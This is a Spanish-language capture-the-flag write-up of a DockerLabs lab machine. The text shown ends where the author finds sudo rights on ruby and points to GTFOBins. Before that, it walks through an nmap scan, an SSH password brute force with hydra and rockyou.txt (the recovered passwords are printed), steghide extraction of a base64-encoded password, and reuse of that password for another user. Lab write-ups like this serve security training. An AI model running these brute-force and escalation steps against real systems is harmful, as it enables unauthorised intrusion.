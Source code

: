 Fecha: 12/08/2024

Comienzo haciendo nmap, encontrando dos puertos abiertos con servicios no vulnerables:
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```


![](Imágenes/Pasted%20image%2020240812132611.png)

Accedo a la página desde el browser, encontrando el siguiente mensaje interesante:

![](Imágenes/Pasted%20image%2020240812132801.png)

Pruebo a acceder encontrar la contraseña de carlota con hydra, usando el diccionario `rockyou.txt`, que resulta ser `babygirl` 

```
sudo hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 
```

![](Imágenes/Pasted%20image%2020240812134830.png)

Me conecto por ssh y me encuentro un fichero, que paso a mi ordenador: 

```
scp ./Desktop/fotos/vacaciones/imagen.jpg pablo@192.168.1.63:/home/pablo/dockerlabs/amor
```

Utilizo exiftool, sin encontrar nada que me parezca de valor y posteriormente steghide, encontrando el siguiente texto : `ZXNsYWNhc2FkZXBpbnlwb24=`, que tiene pinta de estar escrito en base64. Lo decodifico, encontrando el texto `eslacasadepinypon`

```
steghide --extract -sf imagen.jpg
```


![](Imágenes/Pasted%20image%2020240812235022.png)
![](Imágenes/Pasted%20image%2020240812235204.png)
Compruebo si es la contraseña de su, pero no es el caso, así que sigo buscando información. Miro si puedo escalar privilegios con `sudo -l`, sin éxito. Compruebo si hay más carpetas en /home, y encuentro una llamada `oscar`. Pruebo la contraseña con ese usuario y veo que funciona. 
![](Imágenes/Pasted%20image%2020240812235548.png)

![](Imágenes/Pasted%20image%2020240812235435.png)

Haciendo `sudo -l` en oscar veo que puedo ejecutar `ruby` como superusuario. Busco en gtfobins y encuentro lo siguiente: https://gtfobins.github.io/gtfobins/ruby/#sudo

![](Imágenes/Pasted%20image%2020240812235731.png)

![](Imágenes/Pasted%20image%2020240812235742.png)
